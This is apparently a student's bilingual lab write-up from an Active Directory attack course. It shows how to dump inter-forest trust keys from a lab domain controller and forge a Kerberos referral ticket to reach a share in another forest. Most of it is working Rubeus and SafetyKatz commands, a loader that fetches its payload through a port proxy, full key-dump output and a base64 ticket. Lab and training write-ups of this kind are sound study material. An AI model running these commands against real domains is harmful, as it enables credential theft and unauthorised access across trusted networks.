

# Learning Objetive 20

* With DA privileges on dollarcorp.moneycorp.local, get access to SharedwithDCorp share on the DC of eurocorp.local fores

Objetivo: Con privilegios de DA en dollarcorp.moneycorp.local, acceder al share SharedwithDCorp en el DC del bosque externo eurocorp.local.

Concepto clave: Esto es diferente al LO 18/19. Aquí no puedes poner SID History porque los filtros de SID entre bosques externos lo bloquean. En su lugar, forjas un inter-realm referral ticket usando la trust key entre los dos bosques
\
— básicamente te haces pasar por Administrator de dollarcorp para pedir acceso a recursos explícitamente compartidos con el bosque.

***

Extract the trust key


We need the trust key for the trust between dollarcorp and eurocrop, which can be retrieved using Mimikatz or SafetyKatz.

### Get CMD like svcadmin (DA) user

> Since admin cmd VMStudent machine

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Copy the Loader to DC and extract trust keys

> All it into the new cmd opened

Run the below commands from the process running as DA to copy Loader.exe on dcorp-dc and use it to extract credentials:

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

```
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```

> Remember chain the IP&#x20;

<figure><figcaption></figcaption></figure>

```actionscript-3
// Domain DOLLARCORP.MONEYCORP.LOCAL
[  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
    * 3/24/2026 9:06:01 AM - CLEAR   - f5 da 58 b5 da 74 bc cc 7a ef b6 c6 f1 01 d3 ef 32 b8 ad 15 21 cc 03 9a cb cd 08 2f 8e 6b b7 6c db d0 eb 5d 91 8c a7 a6 8d 0a cb e3 8b 8f 49 a5 f8 d6 d9 dc f6 e4 42 a1 4d 89 73 12 30 4c d1 d5 ff 0a f9 85 96 72 cf 87 ce cb 01 47 53 69 b6 55 6d 98 60 fc ba 02 28 9b d0 95 51 28 51 8e 71 72 c0 f3 eb 6d 5f 04 4e 52 c6 af b1 75 76 18 fe 94 50 59 58 ce ef bd d4 40 a7 a5 15 d1 9f 5c 50 24 06 d3 c2 64 4e 6f ec 3a ad f2 1e d9 88 72 64 46 6e 34 e8 6d c5 c8 eb 70 17 39 f7 b9 1a dd 88 57 63 cb d1 37 f7 07 64 93 b0 85 01 79 ca 6b 3e bd 3d 26 14 34 0a 4a a8 99 c4 05 08 7d 89 d8 b2 71 55 47 b2 a2 3a f9 18 2c bd 57 81 a9 27 5d 80 d5 12 4f 73 d5 ed b9 72 ba 15 28 52 ef be 8d c5 16 55 df 8c 98 22 00 51 c1 ec d2 85 9d a9 e2 56 3d
        * aes256_hmac       1ab882b76d70826c52ded2e7715224faf650bdcd0ad27b5ad89c4f774aaad084
        * aes128_hmac       bdbbafe383ee15d5a6fbf512a9ac4d3e
        * rc4_hmac_nt       7bfac7132abd505ddbdf96a66c2ea2af

 [ Out ] MONEYCORP.LOCAL -> DOLLARCORP.MONEYCORP.LOCAL
    * 3/24/2026 9:05:22 AM - CLEAR   - 95 1d 49 ce b9 ab 12 32 af 54 c0 e1 f7 90 71 6e c0 75 44 05 90 c5 80 0e 10 fc 1b 81 89 9c 0d ee 6d 80 f0 42 5f 49 f5 d7 90 54 ae d7 17 71 7c 66 8a d7 96 7e ad 31 fd a0 2d 06 cb ab fa e9 09 56 00 9e ec c9 4d d3 d8 5c 18 28 47 e2 77 f4 19 b2 50 07 95 1b 57 a2 70 1b 97 d3 ce 4f 67 d2 46 9c 11 ee d1 5b 04 39 71 c8 e0 64 cd 1b b2 b5 bc ac d6 06 0e 75 0e df 40 9d 90 6d bb 73 e6 f8 88 77 ef 1c 7e 5c ad 76 d9 77 7d 7c 24 99 14 0b 3b 93 e4 14 60 c4 c7 ea 1b cd 8b 36 36 ce 64 f3 e5 44 0f b4 b5 6f 10 1d 86 77 48 f0 2a 81 4c 77 93 ce af e5 8c ae c5 c5 b9 e8 27 cd 17 ab 7c 5b 24 02 77 8e 0f 03 93 88 c2 29 11 48 7c 79 d9 d6 26 4c e9 a6 90 2d 67 23 bd 72 ed 01 94 28 b8 30 8a 38 bb 67 34 49 2f 23 c8 c0 8e b5 58 46 ad 80 1d 20
        * aes256_hmac       d1bf6b2a553ba52b975449604e36f0aaad0b7c217ce786f3c248d00eb8d48b9c
        * aes128_hmac       25cd5792da12677690ff5fa3b8116b48
        * rc4_hmac_nt       cc0ae81b445cc9e73f6d24bc9d1ea039

 [ In-1] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
    * 12/24/2025 4:30:07 AM - CLEAR   - 9c 7a 05 3b e3 f5 44 cb 6e 44 3e 0e 58 70 3f c4 7a 3b f4 a6 4b a9 35 aa 89 c2 69 ab 27 e9 0f c1 b3 6d 82 83 cb c5 f1 bd b5 32 f2 3f 4b 3b c9 df 5e 1c 08 8c 20 cd b6 13 ed 96 fa 0e 76 90 ab 7d e3 76 61 64 ff 57 1c a1 81 5f 8e 0b b9 95 c6 3f e3 7b 97 d8 98 9d 8b a6 cd 8a 17 1c a0 01 99 7f 81 4c 58 a8 ba 1c b9 4e 45 65 26 6c ef 52 60 d0 63 d2 e5 fa 5e 0d 47 c8 f6 1b 71 a3 a1 77 86 24 77 41 ad 15 ee 6c a6 6f 04 2d df 12 1e c9 d8 6a 55 2c 67 b5 1b bb c6 1a 26 29 00 6c 99 f4 94 0d 83 78 95 75 55 0e 5f d1 5d 10 70 63 55 46 21 99 86 dd e5 7c e5 55 ac fb ac 17 58 b6 2f 50 87 cd 25 31 ba 3f aa 30 55 f3 fd bb e5 cc 1c 49 08 e8 01 a2 77 98 48 9e ea 69 c1 b5 52 6e c2 41 b7 03 ef d9 02 4c 00 cb 32 1d d4 ca 3d 1e 8b e0 04 33
        * aes256_hmac       6e13d23aad175fb8cb0a4a6e893a2f1770992861243f8ea076dc9c8805ee14b6
        * aes128_hmac       1acdb141434c40815149c2127c1e4da2
        * rc4_hmac_nt       da03ec4a696a57b85878934a5d7a6b80

 [Out-1] MONEYCORP.LOCAL -> DOLLARCORP.MONEYCORP.LOCAL
    * 3/24/2026 9:05:22 AM - CLEAR   - 7c 6b af 6d 86 0d ae 0b 05 bf 91 08 57 9f 3d 7c 18 f6 5d d5 b0 c5 4b 81 03 d3 f4 71 66 0d 77 fb d3 db 84 d1 fe 81 cb 7f aa 63 96 8a 9b bc 19 42 68 bb 83 21 4f 7a da 73 ef 26 70 4a ad f5 50 48 9c 2c 5e 18 34 d1 e6 a6 e3 00 ce f2 db 7b 2d 5e 26 60 68 73 5e ae b0 d1 73 07 a4 e0 2b 07 23 3c e8 a1 4d 8c ea 30 45 78 8b 35 6e 83 c9 e8 0a 47 21 e2 05 a0 6e 63 53 fe 24 8a 1f ee 26 cb e1 b4 95 81 7c ba 54 98 45 21 cd f8 c0 40 1a f5 a4 d3 55 f6 59 eb 41 a7 42 6d c8 03 b8 bd 67 f5 e1 f8 56 06 49 e3 34 10 e7 73 c6 5b 7e 07 aa 0f fa aa ac b8 67 2e 48 c1 a0 61 46 44 a8 de 33 86 8e 2f d5 fc 4d 0d 53 5e aa 0a a5 48 d6 0f 06 9f 29 b6 73 d2 3b 70 d1 69 9f f3 9c 77 48 34 0f e5 b8 42 49 ce a5 29 0f 4c 6c 1f b1 c8 6c 8c 92 4e c0 43
        * aes256_hmac       f1124abffffae2114f40b92776b25abad411d4d00e8abd9186a02bd177b93296
        * aes128_hmac       c1841ddfadb615997b66087e4785a680
        
// DOMAIN US.DOLLARCORP.MONEYCORP.LOCAL
[  In ] DOLLARCORP.MONEYCORP.LOCAL -> US.DOLLARCORP.MONEYCORP.LOCAL
    * 3/24/2026 9:06:04 AM - CLEAR   - 4c 15 08 8d 0f 4c 56 a6 14 7e 12 6d d4 9d ba b6 6a 9c 1e a2 b8 8b 37 41 49 1d ba ef c4 5d ef cd 3d 52 d2 96 7c d1 81 0f 16 0d ec 62 6d 22 45 4e 59 cf 5c 82 0f 57 32 e0 2d da 80 a8 6e 7a eb 45 75 c4 f5 65 56 ac 70 ef 55 be 8e a7 ff 2a 86 dd de 22 92 86 1d 5b b0 9a 8b 27 46 fc 07 15 45 d2 c6 b7 f5 33 ea 62 5a df 5f 93 eb e5 b2 b3 2b 85 3e c6 2a ea 81 be 51 44 0d ed 6c 09 24 c6 0f 7d aa 8b 8a e0 89 8d 53 60 4e bc a1 89 92 e5 c9 ae db 0e 02 b4 25 8a 12 ea e6 74 77 d8 5a 07 6c bf f9 1c 09 ee 18 8b 58 16 bc ff d2 61 69 11 9d fc 86 3f f7 04 31 a8 92 39 b2 fe 32 83 0a 84 6e c8 59 b9 df f2 6e d8 f2 8e 83 8a e3 ee f9 d3 40 7c fe c5 a3 02 92 fa 57 94 76 d8 af 69 b9 10 a3 ae 63 9f f4 da e6 69 6e 6c d0 03 a9 ee 13 4a 84 f3
        * aes256_hmac       689b04227095f1e882d294c99d363773c652c6cabd47e1a7b5e5b480f714be97
        * aes128_hmac       07ecd9b4d13569398a854afd0558e73c
        * rc4_hmac_nt       44beb44a09979995f70d70795461b9a9

 [ Out ] US.DOLLARCORP.MONEYCORP.LOCAL -> DOLLARCORP.MONEYCORP.LOCAL
    * 3/24/2026 9:05:23 AM - CLEAR   - e2 b8 d9 23 2e 89 35 6e 22 03 05 d1 22 5d e8 28 67 4d 44 9a fd 42 e6 72 36 19 98 2a c4 d1 05 3d 2a 61 44 2e 47 b6 50 f9 9f 2e 9c ba db 8c 60 9b 16 dc 71 09 bb ac 20 8c 02 d1 56 00 32 6d 26 5d 9c b9 03 8b 0d cb 3b 88 20 2b 31 c6 2c 39 73 62 42 ff f4 71 f2 dd 28 59 be 34 6b 25 a7 5d 4f 20 43 dd c4 2c 6f c0 16 5c 70 8d dc 8a f2 bd c8 99 e4 56 c4 95 9c e6 5c da 6a af e0 97 f1 20 32 95 7e dc 4e f0 10 4a eb 93 5f 74 58 c9 4b 82 51 11 46 95 42 2e fd 5a 20 d0 7f 43 8a da f3 cb 36 7c 7f d4 e2 be 1c 1b ee 99 00 1f 61 d1 4f eb 92 05 7a 16 80 7e 31 8b ae 35 26 fa 01 a6 12 0e f3 6d 9d 69 d8 04 42 e4 68 a9 ba 33 b6 25 cc b7 b3 43 72 bd 5b b0 76 26 16 b9 2a b0 dc 5c 60 e0 57 bb 90 66 ae 86 f6 6e c8 ce ed af c7 43 05 f7 29 dd
        * aes256_hmac       d999ac4e9c7dbd5df16c3466dec20835995e9c402ffaa13f62171a54a76ada7d
        * aes128_hmac       224d16116a3c7fde4e31aefe3472c146
        * rc4_hmac_nt       1b78607d34b3c32eae3ee78de8f4f35a

 [ In-1] DOLLARCORP.MONEYCORP.LOCAL -> US.DOLLARCORP.MONEYCORP.LOCAL
    * 1/8/2026 7:45:07 AM - CLEAR   - 31 ee 90 c5 78 02 d7 be a3 19 ad eb dd 4e 9f c7 5b 98 25 c5 82 d0 37 65 aa d6 28 c9 3f b3 36 15 2f bd b1 fe 58 68 95 6f c2 17 fb 81 c8 b8 59 88 a3 c1 e2 64 56 de 25 75 69 fd 53 ce 4b 59 79 95 4e 05 99 7b 1d 70 9d 4b 39 9d ad 3a 1a b5 37 b3 b5 2e d8 3d 21 e4 ba e1 3e 5c 18 f9 8d cf 48 38 2f 9e a4 93 a8 a7 a1 f0 fc 7d 08 a9 30 81 28 7c b7 ac 28 52 04 65 57 5d 84 d2 79 6c bc 5e fa 92 4a fe ec d4 ef 14 fa e1 97 37 86 38 5b ad 94 96 3e 21 d3 16 e9 6b 8f 2d 33 4c 15 ed 9d ea ca a2 70 d0 43 1a 02 93 fd 06 6f d7 aa 1b cd 4a 86 59 28 4e 8a 15 11 bc a2 ce 52 ee c5 b7 9e df c8 13 f2 34 04 39 1a fc c2 14 2e 42 14 b7 a9 4a 2e 2f 55 ca 95 a9 e2 72 1d 07 23 ae 02 b7 62 b0 a5 c1 da 37 c5 95 d7 76 8d d2 56 c2 e5 5b ac 2e b7 4d
        * aes256_hmac       8d977d685518a00ae2a729842d59d06d5fc570a1423ff379557df1d9fd366ed0
        * aes128_hmac       f3084c8bdb10c7307305913ebd58feae
        * rc4_hmac_nt       28c8cd2915369891e68aaecc03390e53

  [Out-1] US.DOLLARCORP.MONEYCORP.LOCAL -> DOLLARCORP.MONEYCORP.LOCAL
    * 3/24/2026 9:05:23 AM - CLEAR   - 19 a7 b7 b8 3b 6d 83 72 8c ca 83 eb 9b 91 c7 bf 9b e2 52 d6 d8 b2 0d ba 19 5e 66 8c c1 dc db 5f ea 1b 6a 9a 90 9a e2 8a 48 ac c2 9c 3f 34 cf 61 3c 88 9f 5f ef 24 18 64 3f 59 8c 11 38 5b b7 47 30 32 82 ee b3 30 a7 93 de 76 e0 30 55 4c ed 4c e3 49 6e ef 48 32 cf 5b d2 45 fa b6 90 7d ec 94 3f 89 8e 5d 3d b7 60 0e fd e5 53 86 47 99 cc 24 32 f2 4e df 0d 44 1b f3 6b 84 a9 6a d0 40 f7 f0 59 4b b4 45 e3 3d a4 22 41 2b 64 19 16 0a d1 32 79 f5 d0 9a d1 3b c7 11 9e 70 01 6b 66 13 ab 2b a8 25 b2 81 43 3e bc db d3 8f ec d8 af fc 02 88 1b 88 58 15 27 f2 3c 2a 40 a4 99 d5 f7 aa 54 01 43 77 b7 90 18 64 19 46 44 bc f5 94 bf 60 b8 b7 bf 7a 29 4b b1 f7 ba 8a b4 01 c6 fb fe ae a3 f5 5c 86 ce ca 17 25 8e d1 27 71 1f ee 29 99 d7 99
        * aes256_hmac       d1f0d39e3a33769bfdb762da8e03dc4da6646ffe3a8e6c01698bf14f2ec451dd
        * aes128_hmac       bb60c5dab7ae0e9c3deaa94a4cd04f71
        * rc4_hmac_nt       d2f2925337591ed915a7bc3f9403ee28
        
// Domain EUROCORP.LOCAL
[  In ] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL
    * 3/24/2026 9:05:42 AM - CLEAR   - 8f 6a 17 31 fb 4b 42 b0 73 a4 db 4b 10 18 e9 9b 1f e6 75 56 f0 6f fc 6b 84 34 9b e6 e9 16 fe ba 90 69 64 3c 19 4e 0d 47 50 14 62 f1 e7 81 0a d7 78 d6 88 bf a5 c8 53 62 6f 5b 54 3b 11 01 b9 80 e1 66 d7 85 86 2c eb 36 55 f0 7b d9 d8 79 65 fe 38 61 b6 a8 62 80 4e 30 7b eb 51 86 47 6c a4 51 b9 2b 97 4e c7 0a 9c 2b fe 27 1e a1 f8 b2 99 5c 33 40 77 91 63 b0 78 f5 91 fd 61 6c f0 56 82 91 50 33 57 82 5f 4b 9c 63 b1 43 5c ed ad a9 c4 e8 d5 16 4f 55 2b 24 30 83 bb bc f3 7e a7 14 c8 44 3a 2d a0 32 ef e2 79 b3 46 a5 e2 7c 58 7a 6e a1 0d 4e 31 87 2c 08 89 18 63 13 b4 62 e7 4a 97 9f f1 7f 43 53 f1 39 46 43 ab b7 81 9d 52 fd bf 91 f2 b8 b9 b8 ff e8 17 17 4b 18 e3 e9 fc 08 8f 26 55 30 31 0a 46 ad 48 7e 7d 0e 07 89 96 1e fc cd
        * aes256_hmac       a18ce7d3072431334db257ab167347b20a1f59c257f808f7e6fc0cb89ace8bac
        * aes128_hmac       52a278ddf64d0e855896a0bea83f2356
        * rc4_hmac_nt       6c7869737f13b0dd2a47911f6e8cab60

 [ Out ] EUROCORP.LOCAL -> DOLLARCORP.MONEYCORP.LOCAL
    * 3/24/2026 9:05:23 AM - CLEAR   - ed 57 c9 ef dc 5f 93 85 08 03 4d e7 cb ed 49 49 f9 a6 0b 91 cf 71 0b 7f 66 e3 21 38 00 67 a6 42 8d 1e e6 b6 03 92 d6 ca 53 8a f2 0c 6f 03 05 3d a9 af a2 87 3c 25 5f 21 92 2b 7c e9 16 bc 51 5c d9 cb 44 53 73 f1 78 f7 ab 84 b6 c1 3d 1e d3 b1 cb 9d 95 74 95 32 a5 29 e9 23 f1 d4 8e 76 ea 5f 3a 7d 24 06 91 29 25 8a 8d d2 a2 48 8f 3f 6f ab aa 60 96 c9 77 61 93 e1 11 87 44 a7 25 18 3f 79 65 c6 7f 8e ec 1e 9b af cb fd 43 e8 aa 05 96 07 42 3b b3 19 d7 3e e0 20 3c 9f d6 c0 33 c1 f9 c7 c0 99 ce de db 79 a3 cc 27 36 e2 64 69 16 e9 00 50 b0 76 4f 7e af ec 1b cb fe c2 7f 2c 25 b8 db 10 1e c5 93 e1 41 58 78 71 af d1 2f 0a b3 4e 00 2f 5f b9 58 ff a9 98 9d 67 8a 2d 5c 22 47 2e bd 0a 29 45 a7 50 52 8e a4 75 fb a0 df 51 0d 33 f3
        * aes256_hmac       468648c4f06bd3e5f52ad86aecde4a3e419b88d0ff36dbe974cb84a9469d8100
        * aes128_hmac       b78292fef3a01d362ea80ee2a764b775
        * rc4_hmac_nt       7fe6ffeaa594efe01c93de260d741e01

 [ In-1] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL
    * 1/8/2026 10:07:53 PM - CLEAR   - 76 aa 2a 28 ab 43 ce 13 a3 c2 ee f0 26 ce 1e 18 cc d9 f8 aa 33 be 7d 0f 95 14 3f 01 59 dd 8b 06 67 8a 6a b5 95 81 4f 38 94 fb 21 79 48 02 90 50 84 28 4d 1a f2 c9 50 c9 61 c6 6d 32 19 0f d3 2e e6 77 ca 87 f7 b6 38 6a 59 73 8a 72 6f d0 fc bb 1c b0 cd ce d5 8e 05 64 81 ab d3 f5 6c 73 8c 11 96 01 b9 c3 e3 22 07 03 9c 8d f2 71 43 61 d0 14 1e d3 c9 fd 71 3f f0 03 86 23 5b a2 59 36 7a 3d e3 c0 c6 e5 3c 45 7c 51 44 00 b0 9b 87 69 6d 05 b9 e3 87 b3 e1 56 2c e1 5d 28 47 96 b5 f7 98 d1 f4 00 91 24 a4 9e 2c e0 47 d3 73 cb 0b ac 48 a5 3b cb 94 75 0c 52 b5 04 29 87 02 a7 2d 89 36 9c 3b b1 10 2b 7d 81 01 34 db b3 e5 19 f3 fd 68 d2 34 33 b3 f3 c3 03 44 bd 1a 52 7a b2 fd 9e 26 bd 41 43 cc 50 3a 18 23 53 69 7e c4 85 98 cb 03 0c
        * aes256_hmac       ee7401fea75a0570bac1f8c4a3be060dddb16457921a3d7d34684a31fb4b8185
        * aes128_hmac       02693bf10079a6b1d20d1107f42f3d3d
        * rc4_hmac_nt       f11477478e7fcd736511022f8ae33713

 [Out-1] EUROCORP.LOCAL -> DOLLARCORP.MONEYCORP.LOCAL
    * 3/24/2026 9:05:23 AM - CLEAR   - 9a b7 26 76 39 79 2d 91 2c 68 3b 07 1c 84 f4 ca ca fb 57 87 8c 84 d5 2c a5 40 17 4b ed 36 0d a8 78 7b 05 2e 5a 58 3c 83 c6 14 12 06 99 f7 01 54 e4 c5 7b a0 7d ab f1 b8 35 16 bc 6b 99 09 c3 9b 1f ed 75 61 1d 6a 92 83 59 94 99 7a 3d 20 25 3a e3 39 ad 2a 94 39 6e 53 57 5c c8 c2 cb 62 7c b0 84 d5 9e ee 59 b5 24 37 05 ea 0b 4f b4 d5 d8 3a 85 4d df f3 60 74 b2 c8 12 f7 ec a5 2d 45 aa 3c a4 49 fc 78 18 5d 2f fb 36 cf c6 a9 a4 c3 af d1 3c 8f 5b 62 c9 f3 b1 04 c3 73 46 4d ab 7d 39 92 55 e6 5d 14 ae 20 58 4d 80 d7 92 33 0b 50 f8 10 30 a8 12 1f 34 53 e5 5a 5c 62 bf 4c 1e 1c 1e 9e dd f7 77 f8 88 12 90 3a 82 6c 9f ae 21 d9 f2 db 67 fa 46 08 9a 3b c8 f5 0e f9 d2 57 c5 8c ee 25 70 31 e1 de 0a b5 30 7c e0 1d c5 d5 44 56 5a ad
        * aes256_hmac       8839d18fbfed2bc09a6147335bfd811d43ebfc5cc2a4be5daf6bdf4148754ab0
        * aes128_hmac       31c8c498593c39043da700deef060039
        * rc4_hmac_nt       ec80de40be7970a33330223d7c407d91
```

The important here is DOMAIN EUROCORP.LOCAL -> \[ In ] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL -->

> ```
>   * 2/24/2023 1:10:52 AM - CLEAR   - 4b 28 69 61 81 ef 64 36 4e 80 d2 0a 54 63 08 fe 58 e8 18 14 cd 90 15 ac 93 10 02 37
>         * aes256_hmac       bc1e5642c1afebbeeb76b9ba6f688ea0c876ecac7ecdd4b7e95d5beb35d886df
>         * aes128_hmac       9896c96f784de9a0341150b7fa1e2360
>         * rc4_hmac_nt       163373571e6c3e09673010fd60accdf0
> ```

## Forge a referral ticket


Let’s Forge a referral ticket.&#x20;

> Note that we are not injecting any SID History here as it would be filtered out. Run the below command:

> All it into us VMStudent machine\
> De vuelta en tu student VM, forjas un ticket krbtgt firmado con la trust key:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /aes256:a18ce7d3072431334db257ab167347b20a1f59c257f808f7e6fc0cb89ace8bac /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap 
```

<mark style="background-color:yellow;">Change you AES256 by the actual</mark>

> Aqui samos la info del hash obtenido del eurocorp.local, pra optener un ticket de adminitrador
>
> * SID
> * HASH RC4

<figure><figcaption></figcaption></figure>

Copy the base64 encoded ticket from above and use it in the following command:

```
doIGHDCCBhigAwIBBaEDAgEWooIE1jCCBNJhggTOMIIEyqADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBHIwggRuoAMCARKhAwIBA6KCBGAEggRcHpBGhU1NvMHpkmoamA0bSPno728y8qAA5dxAC9VStYIpnjlR3lTGTRIK6ARH7aV5iwB+qwnGQ7KxM/cUcJayYOxsKnHuM20hbXQ3h8GX5k97bInMW8JeEROtoxVSLj/p8A3tqqJJnQqLkT9NCL47I5BC+YpJlIkwGHOLgUkdHiNRTLqIMFYy5bhH4S0gCsfZUHRTqJ5byG/PIiFSgq3dCsG6yJo3RGdUTwHVidhS/aN/SPquiuj1nz2vjY4c2mGNA9HzxqqkntO/aqAUqUVeiynFoOjduv0AkaupruMH4Ds0XvLk9GTau9iheEaqTOHXAORtGGNDFrJhdJotDWc47a/VfxFh2ahtrF2fqJq1m9/4vYNvFCB0q/ME78RC3bRZrSkDEvL5zV3Fcxt0BxkmjscZPvgceylsmU4g0LlnU5UDiA1o6dlUIg2cL2+MqZv7XkEE8bfEKnZH4dVMKT0s01+1rcitZHmVivXBl2KOWEtl6i2Ky6RXjN6yKi/iiMBA8np9exK6AVg+Og5eRXPU60JVybSKJNrzvhPPW8r1B/Ft3wz4D/LmeDG+p8Sp41onZHs9BuYzdmAkvafzf8natXEPQ96mwPSwRtij5UgS2l/XJTqzK2KY/rr8LD7W2PcY0iWIi2FPFjQCnSuFYPwUlqQ165yOB1WxXfu0sofFzCNuATA6iJQ5MlgeXaoNVPepatFYGVbIkdIANPPRrWtlSIEH9In0nFD/2h9e7GLs1bTywnt5Ei1Z9xzEc3OQoPhYT902VmgyvCMmtu/UzBCgftd3PwHDPHZnzn73BUxk/xDdqO9g135Bb87o5Yghd79NwkoroRpoEJdzp74xnY7IK6vwy1iUNFubCg+fIFDg3tHbaShhkDxOc/llQx5w7c68JeAl4Yirmps1hP9cuRgqV5ET5ibEXDE1BFMY/XpT0HY3pQ61Z5rem9EDR3d8FSzNLJYap/rxTYOP/AHEbbPL0uWbs2H0yBKiqcaijA858kn+3g7OLqEUiiN0g0/zQJYUQhEgW9bazRC/BcU5kLDLMYMv/M3BVc1Wy+rMKWjuqOPPAqRxjAsJ+cE0oE6rHPQKchuZLU7doFHHJUWNUvHBOG5l68+80t7gmC3ev4StEY/51k4umQkkgZQA2RvpcJS546NfpN/+ztegpvniugRW3p6/pgt8FX5W+XxpPBJ95wDn5bSDGTsvS4jPM0cx+nwOFM5DsXDjNofsOPLG/s+Oec0xOgvDkosX3IwLAJNLl+vmZ2pMxf7jBQcbtE99OsLRajCtW6Fp4ReWuctMmaEEHEPjlMLWi/alU8LAVAkX1bRiweM57IYwNtpDYwqREYFAhqCEaiQomfQkkUWcK/RxitPRwuJIU8/DcgsuWkcBjyh634f3ImV4jUMGrRQ5VtH0E2pQNsjLraBU/evmsI+N+CM/2N/z/69oGGscapKQnEK8Xn1mqYIJEiqj1ClbPCITQmJLmBdNIRBiqFv/o4IBMDCCASygAwIBAKKCASMEggEffYIBGzCCARegggETMIIBDzCCAQugKzApoAMCARKhIgQgDH0LiQejQR0uRQsKbc76ZxzqXwA6rHhwlQBqINVfm5ahHBsaRE9MTEFSQ09SUC5NT05FWUNPUlAuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBAoAAApBEYDzIwMjYwNDE5MDg1NjQ2WqURGA8yMDI2MDQxOTA4NTY0NlqmERgPMjAyNjA0MTkxODU2NDZapxEYDzIwMjYwNDI2MDg1NjQ2WqgcGxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKkvMC2gAwIBAqEmMCQbBmtyYnRndBsaRE9MTEFSQ09SUC5NT05FWUNPUlAuTE9DQUw=
```

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.LOCAL /dc:eurocorp-dc.eurocorp.LOCAL /ptt /ticket:doIGPjCCBjqgAwIBBaED...
```

> Remember replace/paste the tgt base64

Once the ticket is injected, we can access explicitly shared resources on `eurocorp-dc`.

### Check if the ticket was injected

```
dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

<figure><figcaption></figcaption></figure>
